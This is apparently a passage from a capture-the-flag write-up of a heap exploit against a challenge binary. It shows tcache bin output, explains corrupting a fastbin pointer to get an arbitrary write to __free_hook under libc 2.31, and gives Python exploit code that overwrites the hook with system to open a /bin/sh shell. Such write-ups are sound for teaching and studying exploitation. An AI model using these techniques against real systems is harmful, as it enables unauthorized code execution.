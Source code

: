 ```
(0x90)   tcache_entry[7](7): 0x56460e1da220 --> 0x56460e1d9fc0 --> 0x56460e1d9e90 --> 0x56460e1d9d60 --> 0x56460e1d9c10 --> 0x56460e1d9b80 --> 0x56460e1da2b0
(0x100)   tcache_entry[14](1): 0x56460e1d7910
(0x1e0)   tcache_entry[28](1): 0x56460e1d72a0
```
heapinfoall knows... It knows too well...

## Arbitrary write primitive (a primitive way indeed)
Homeeeeee sweeeeet homeeeeeee. Let's set up this chunk so that allocating two more times will give us the `__free_hook`. The first 8 bytes that we can write to of a fastbin
(remember a fastbin extends back behind the pointer we are given) contains the address for the next bin. Overwriting that should make malloc return an arbitrary pointer,
giving us an arbitrary write primitive. There are checks/mitigations to make sure the jump location is sane, but it appears (?) like we lucked out on this binary, as
the simple offset of 16 works.

This simple offset is of size 16 because in libc 2.31 there are two addresses stored behind the writable pointer we are given. If we were to run into
mitigations, we could extend the offset backwards even more to hopefully land in a memory location that bypasses them due to preexisting/uninitalized memory.

```python
free_hook = libc_base + libc.sym.__free_hook
# write 16 bytes backwards as fastbins
# reserve 16 bytes for internal metadata
# this allocates ... ughhh
try_free = p64(free_hook - 16).ljust(48, b'A') + b' ' * 128
new_acct(try_free, b'')
p.clean()
```
```
Account ID: Full Name: Could not read account name.
```
What? This only occurs if `prompt_for` fails, which only occurs when (scrolls up) the string is invalid UTF-8, or reading in from terminal fails. Probably the former
considering the bitpacked ints. Luckily, it sometimes doesn't error, so I can probably just ... add a `while True:` and some error checking.

Is it time?

```python
system = libc_base + libc.sym.system
try_system = p64(system).ljust(48, b'A')
# UTF-8 decode error here still lets
# us pwn, so don't care about it
# ditto for double allocation, I think
# it actually helps us? idk its black magic
new_acct(try_system, b'')
p.clean()

print("1, and then /bin/sh")
p.interactive()
```
